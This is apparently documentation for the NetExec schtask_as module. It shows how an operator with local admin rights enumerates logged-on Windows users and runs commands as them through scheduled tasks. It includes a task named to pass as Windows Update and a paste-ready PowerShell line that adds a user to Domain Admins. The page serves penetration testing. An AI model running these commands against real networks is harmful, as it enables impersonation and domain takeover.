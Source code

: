 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte_).

### 1. Enumerate logged-on users on your Target

There are three ways you can enumerate logged on users on a Windows machine:

* --loggedon-user

```bash
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

* --qwinsta

```bash
nxc smb <ip> -u <localAdmin> -p <password> --qwinsta
```

* --reg-sessions

```bash
nxc smb <ip> -u <user> -p <password> --reg-sessions
```

**Note that these options do not output the same information.**

Indeed, `--loggedon-users` returns the list of logged users as well as to which DC they connected to. `--reg-sessions` shows any user whose login context is currently loaded in the registry. Both do not confirm that users have an active interactive session, which is required to use `schtask_as`.

On the other hand, `--qwinsta` returns the windows interactive sessions that are running on the system. As such, if you really want to be sure you can impersonate someone with that module, run the `--qwinsta` option.

### 2. Execute commands on behalf of other users

```bash
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```bash
CMD            Command to execute
USER           User to execute command as
BINARY         OPTIONAL: Upload the binary to be executed by CMD
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```bash
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```powershell
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```

Note that the BINARY option allows you specifying a local binary that will first be uploaded to the remote server, executed and cleared. This allows us not having to upload the binary and then run the module.
